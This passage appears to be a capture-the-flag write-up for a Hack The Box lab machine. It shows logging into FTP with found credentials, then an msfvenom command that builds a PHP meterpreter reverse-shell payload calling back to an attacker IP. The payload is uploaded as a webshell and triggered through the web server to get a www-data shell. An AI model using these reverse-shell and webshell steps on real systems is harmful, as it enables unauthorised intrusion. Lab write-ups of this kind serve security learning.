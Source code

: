 
The second one is a address to `low` and give us some hint about one of the next step.

> Hello low
>
> Your current task is to install, test and then erase every python module you
> find in our PyPI service, let me know if you have any inconvenience.

## FTP

The `developer` account credentials allow us to connect to the FTP service. We
see that we can write on the `dev` folder.

This also take me some time to figure out but we can access our uploaded file on
the `dev` environment accessible at [http://dev.sneakycorp.htb/test](http://dev.sneakycorp.htb/test).

Therefore we generate a simple PHP `meterpreter` using `msfvenom`: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f raw > lol.php`
and upload it on the FTP server.

    :::text
    write on ftp dev (webshell)
    kali@kali:~$ ftp 10.10.10.197
    Connected to 10.10.10.197.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.197:kali): developer
    331 Please specify the password.
    Password:
    230 Login successful.
    ftp> cd dev
    250 Directory successfully changed.
    ftp> put lol.php
    local: lol.php remote: lol.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    30687 bytes sent in 0.00 secs (7.3772 MB/s)

We run the `metasploit` handler and trigger our payload by browsing to [http://dev.sneakycorp.htb/lol.php](http://dev.sneakycorp.htb/lol.php).
This get us a shell as `www-data`.

    :::text
    meterpreter > getuid
    Server username: www-data (33)

# User

## John

We browse the file system and found some `pypi` sub domain and a `.htpasswd` file
containing an encrypted password.

